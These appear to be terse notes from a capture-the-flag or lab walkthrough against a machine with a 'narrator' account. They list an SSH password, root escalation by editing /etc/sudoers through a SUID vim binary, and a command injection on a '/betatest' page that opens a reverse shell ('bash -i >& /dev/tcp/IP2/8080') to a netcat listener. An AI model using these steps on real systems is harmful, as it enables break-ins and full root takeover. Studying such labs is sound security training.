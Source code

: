 Tyler

`ssh narrator@IP` password `X8JEETQmf3hkS65f` (don't ask me where this comes from, I extracted it from the ~~deep dark~~ web)

`vim /etc/sudoers`
add the line `narrator   ALL=(ALL)	ALL` to the file next to where the root one is

`sudo su`
you are in! `chmod 0755 /usr/bin/vim`



http://ip/betatest
`test; bash -i >& /dev/tcp/IP2/8080 0>&1` after `nc -nlvp 8080`

- Use SSH to get full shell
VIM SUID to root: `vim /etc/sudoers`
